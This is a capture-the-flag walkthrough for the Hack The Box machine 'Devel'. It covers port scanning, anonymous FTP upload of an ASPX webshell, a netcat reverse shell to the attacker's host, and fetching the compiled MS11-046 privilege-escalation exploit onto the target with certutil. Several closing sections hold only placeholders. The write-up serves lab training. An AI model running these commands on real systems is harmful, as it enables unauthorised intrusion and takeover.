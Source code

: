 # Devel 

**Links:** [1](https://www.hackthebox.com/machines/Devel)  [2](https://app.hackthebox.com/machines/Devel)

**Machine ip:** 10.10.10.5

![devel](https://github.com/h4md153v63n/CTFs/assets/5091265/9ab7e4a6-088a-4d20-88e1-5bc25641cfa1)


## Reconnaissance
```
sudo masscan -p1-65535,U:1-65535 --rate=1000 10.10.10.5 -e tun0 > ports

ports=$(cat ports | awk -F " " '{print $4}' | awk -F "/" '{print $1}' | sort -n | tr '\n' ',' | sed 's/,$//')

sudo nmap -Pn -n -sV -sC -O -p$ports 10.10.10.5 --open

```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/fd580f7a-f9d8-4301-9fd7-82b27bb870e8)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/346d5392-a21f-4dde-b88b-5d98570477a1)


## Enumeration
```
ftp 10.10.10.5

Name (10.10.10.5:kali): anonymous
Password:

dir
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5149c861-836c-4c01-adf3-c5e5c3ad24d8)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/239327b2-ccb6-453a-9645-357665efbd90)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/8f62462c-3a38-4713-85c3-4d48866cbec0)


## Exploitation & Gaining Access 
Download, and transfer asp webshell using [cmd.aspx](https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx).

```
put cmd.aspx

dir
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/cf0496fc-5036-426f-9943-52b96ec96bd1)

Navigate to "http://10.10.10.5/cmd.aspx", and get a webshell.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/a37e66b5-b01c-4d6a-b2bb-bd8c4c0b464b)

Trigger the reverse shell:

```
# On the kali attack vm:
ls /usr/share/windows-binaries

smbserver.py tmp /usr/share/windows-binaries

nc -lnvp 4444

# On the webshell:
Program: \\10.10.14.24\tmp\nc.exe

Arguments: -e cmd.exe 10.10.14.24 4444

Run
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/34e2978a-e667-4b52-be83-934e27050b5a)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/78cf0d24-8148-458c-9b1d-bb9f20707968)

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/1f5378dd-6bf9-42f4-86ab-3d02c331d11b)


## Privilege Escalation
```
systeminfo
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/89b2ddc2-3b53-41b6-9dc8-56745f3290dc)

Search  **windows 7 build 7600 x86 privilege escalation** on the internet.

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/5f6364c1-4f41-4730-be7a-50517bec0105)

```
searchsploit ms11-046

searchsploit -m 40564

sed -n '60,70p' 40564.c
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/ab0cef06-f654-4927-88ed-0cc94bdc4a2f)

```
# On the kali attack vm:
# Compile:
i686-w64-mingw32-gcc 40564.c -o MS11-046.exe -lws2_32

sudo python3 -m http.server

# On the target machine:
cd Users\Public\Downloads

certutil.exe -urlcache -split -f "http://10.10.14.24:8000/MS11-046.exe" MS11-046.exe

MS11-046.exe
```

![image](https://github.com/h4md153v63n/CTFs/assets/5091265/bdb02526-aad4-4391-86f4-7160e7e7ab36)



# References & Alternatives
+ https://vvmlist.github.io/#devel
+ x


## CVE Scripting
+ x


## Tools
+ **webshell / cmd.aspx:** https://raw.githubusercontent.com/tennc/webshell/master/fuzzdb-webshell/asp/cmd.aspx
  + https://github.com/nikicat/web-malware-collection/blob/master/Backdoors/ASP/cmd.aspx


## Technical Knowledge
+ x


## Problems Solution
+ x


## For More
+ x
